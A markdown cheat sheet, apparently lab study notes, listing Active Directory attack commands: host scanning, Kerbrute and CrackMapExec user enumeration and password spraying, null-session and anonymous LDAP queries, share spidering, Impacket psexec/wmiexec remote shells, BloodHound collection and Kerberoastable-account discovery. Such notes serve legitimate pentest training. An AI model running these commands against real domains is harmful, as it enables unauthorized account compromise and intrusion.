 ## Scanning, Enumeration, Recon, External

Scan for live hosts on network
```
fping -asgq sub.net.ip/24
```

Kerbrute for internal AD username enumeration
```
sudo git clone https://github.com/ropnop/kerbrute.git
sudo make all
kerbrute userenum -d <domain.local> --dc <domain.ip.number> <usernametextfile-to-test> -o valid_ad_users.txt
```

Kerbrute can be used to password spray
```
/kerbrute_linux_amd64 passwordspray -d <lab.ropnop.com> <domain_users.txt> <Password123>
```

Password spray with Crackmapexec
```
crackmapexec smb <domain.ip> -u <user.list> -p <Password-to-try> //use --local-auth hen trying a local admin account
```

Windows domain spray internally - https://github.com/dafthack/DomainPasswordSpray
```
import-module domainpasswordspray.ps1
invoke-DomainPasswordSpray -password <password-to-try> -outfile <output.file> -errorAction silentlycontinue
```

Link for Kerbrute - https://github.com/ropnop/kerbrute

List of usernames - https://github.com/insidetrust/statistically-likely-usernames

Enumerate Password Policy with CME
```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
crackmapexec smb 172.16.5.5 --users
```

rpcclient to check a Domain Controller for SMB NULL session access
```
rpcclient -U "" -N <domain.ip>
then querydomaininfo to check password policy
Can also use enumdomusers command
```

enum3linux can enumerate windows hosts and domains
```
enum4linux -P <domain.ip>
enum4linux -U <domain.ip>  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

enum4linux-ng is a rewrite and has additional features. -oA will output a JSON  and YAML file
```
enum4linux-ng -P <domain.ip> -oA save
```

Establish a null session on windows
```
net use \\DC01\ipc$ "" /u:""
```

LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. From Linux.
```
ldapsearch -h <dc.ip> -x -b "DC=<domain-name>,DC=<LOCAL>" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
Getting users with LDAP Anonymous
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Windapsearch can be userd to enumerate users, DA
```
windapsearch.py --dc-ip <172.16.5.5> -u "" -U
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password --da //find domain admins
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password -PU //find privileged users

```

## Initial Access

Enumerate users and spray passwords. Look for creds.

## Internal enumeration - Services, Accounts, Security Controls

Credentialed enumeration - We're interested in information about domain user and computer attributes, group membership, Group Policy Objects, permissions, ACLs, trusts, and more.

Crackmapexec for credentialed enumeration
```
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --groups
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --loggedon-users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --shares
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> -M spider_plus --share "Share name" //CME will write results into a json file at /tmp/cme_spider_plus/<ip of host>
```

SMBmap can be used to enumerate shares
```
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip>
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip> -R <Name of share> --dir-only //Recursively list directories
```

Impacket toolset
```
psexec.py <domainName.local>/<username>:<'password'>@<target.ip> //psexec requires a user with local admin privileges
wmiexec.py <domainName.local>/<username>:<'password'>@<target.ip> //not a fully interactive shell
```

Bloodhound - Once domain creds are obtained, you can run bloodhound - https://github.com/dirkjanm/BloodHound.py. Clone the repo then ```pip install .```
```
sudo bloodhound-python -u <'username'> -p <'password'> -ns <172.16.5.5> -d <domainname.local> -c all
sudo neo4j start
bloodhound
```

Credentialed Enumeration with Powershell
```
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName //This will get us a listing of accounts that may be susceptible to a Kerberoasting attack
Get-ADGroup -Filter * | select name
```

Snaffler is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment. - https://github.com/SnaffCon/Snaffler
```

```

